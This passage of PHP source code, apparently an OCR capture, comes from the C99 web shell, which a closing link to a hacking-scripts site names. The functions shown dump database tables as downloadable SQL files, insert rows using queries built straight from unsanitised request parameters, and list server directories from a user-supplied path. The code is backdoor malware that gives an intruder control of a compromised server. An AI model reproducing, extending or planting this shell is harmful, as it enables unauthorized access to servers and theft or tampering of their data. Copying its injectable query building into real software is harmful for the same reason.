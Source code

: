     }
    $out .= ");\n";
  }
  $filename = $_GET['table'] . "-" . time() . '.sql';
  header("Content-type: application/octet-stream");
  header("Content-length: " . strlen($out));
  header("Content-disposition: attachment; filename=" . $filename . ";");
  echo($out);
  die();
}
function sqlinsert(){
  style();
  $sqlcon = @mysql_connect($_SESSION['sql_host'] . ':' . $_SESSION['sql_port'], $_SESSION['sql_user'], $_SESSION['sql_password']);
  mysql_select_db($_GET['db'], $sqlcon);
  if($_POST['ins']){
    unset($_POST['ins']);
    $fields = array_flip($_POST);
    $f = implode(",", $fields);
    $v = implode(",", $_POST);
    $query = "INSERT INTO " . $_GET['table'] . " (" . $f . ") VALUES (" . $v . ")";
    mysql_query($query, $sqlcon) or die(mysql_error());
    die("Row inserted.&lt;br&gt;\n&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $_GET['table'] . "'&gt;Go back&lt;/a&gt;");
  }
  $query = "SHOW COLUMNS FROM " . $_GET['table'];
  $result = mysql_query($query, $sqlcon) or die(mysql_error());
  $i = 0;
  $fields = array();
  echo("&lt;form method='POST'&gt;");
  echo("&lt;table&gt;");
  while($row = mysql_fetch_assoc($result)){
    array_push($fields, $row['Field']);
    echo("&lt;tr&gt;&lt;td&gt;&lt;b&gt;" . $fields[$i] . "&lt;/b&gt;&lt;td&gt;&lt;input type='text' name='" . $fields[$i] . "'&gt;&lt;br&gt;\n");
    $i++;
  }
  echo("&lt;/table&gt;");
  echo("&lt;br&gt;\n&lt;input type='submit' value='Insert' name='ins'&gt;");
  echo("&lt;/form&gt;");
}
function nicesize($size){
  if(!$size){return false;}
  if ($size &gt;= 1073741824){return(round($size / 1073741824) . " GB");}
  elseif ($size &gt;= 1048576){return(round($size / 1048576) . " MB");}
  elseif ($size &gt;= 1024){return(round($size / 1024) . " KB");}
  else{return($size . " B");}
}
function files($dir){ // File manipulator function
  style();
  global $self, $curdir;
  if($dir==""){$dir = $curdir;}
  $dirx = explode("/", $dir);
  $files = array();
  $folders = array();
  echo("&lt;form method='GET'&gt;");
  echo("&lt;input type='text' name='dir' value='" . $dir . "' size='40'&gt;");
  echo("&lt;input type='submit' value='Go'&gt;");
  echo("&lt;/form&gt;");
  echo("&lt;h4&gt;File list for ");
  for($i=0;$i&lt;count($dirx);$i++){
    $totalpath .= $dirx[$i] . "/";
    echo("&lt;a href='?dir=" . $totalpath . "'&gt;$dirx[$i]&lt;/a&gt;" . "/");
  }

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"